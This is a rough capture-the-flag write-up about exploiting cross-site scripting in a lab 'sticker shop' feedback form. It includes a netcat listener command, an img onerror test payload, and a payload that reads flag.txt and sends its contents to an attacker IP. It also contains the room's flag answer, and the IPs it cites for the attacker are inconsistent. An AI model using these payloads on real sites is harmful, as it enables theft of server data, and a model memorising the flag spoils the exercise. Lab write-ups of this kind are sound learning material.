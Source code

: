 ROUGH WRITEUP NOT COMPLETE

![image](https://github.com/user-attachments/assets/c3a16a82-63e5-4467-b055-282e5a2316d5)

This CTF is designed around exploiting a cross-site scripitng vulnerablility within the target's website.

## The sticker shop is finally online!

What is the content of flag.txt?

trying to go to the webpage itself is unauthorised

![image](https://github.com/user-attachments/assets/0bffd75c-7c4f-496c-bc18-cbb789c46a2a)

There is a box in feedback to abuse.

![image](https://github.com/user-attachments/assets/e58903a5-a95f-4a97-9d01-8af8565dabe2)

set up a netcat listener on the attacker machine with nc -nvlp 8080

submit a xss attack test to the feedback box:

``` < img src = x onerror="fetch('http://attacker_ip:8080')"/ > ```

This works as follows:

<img src=x> tries to make the website load an image that doesnt exist so it throws an error.

onerror= this is that error and defines what to do when the image fails to load.

fetch= this makes network requests to the IP/URL in the brackets.

All together, the text box is fet a request to open an image that doesnt exist, it cant so it defaults to the error that tells it to send a network request back to the attackers machine. As there is a netcat session listening on the same port, it can recieve a response from the web server, proving there is a vulnerability to be exploited. If there was no reply, it can be taken that the vulnerability was not present.

![image](https://github.com/user-attachments/assets/da4d8e2a-32b4-43d0-8f0c-07709ef530b5)

Knowing this information, I basically fed the question to chatgpt and it provided me a lovely crafted response with additional lines added onto the initial injected code as seen below:

<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://10.10.239.245:8080/?c=' + r))"/>

This is very similar to the previous injection, but this time taking data from http:IP_ADDR/flag.txt instead. This would work using this method but not when searched on my own device as this is the website doing a lookup for its own material, therefore it will always have access to it. 

This works as Follows:

.then(r => r.text()) = This converts the response to text

.then(r => fetch('http://10.11.116.53:8080/?c=' + r)) = This sends the converted response to the attacker IP who is listening

![image](https://github.com/user-attachments/assets/33c82a30-a34c-49fa-bef4-8f333bb41509)

``` Answer = THM{83789a69074f636f64a38879cfcabe8b62305ee6} ```

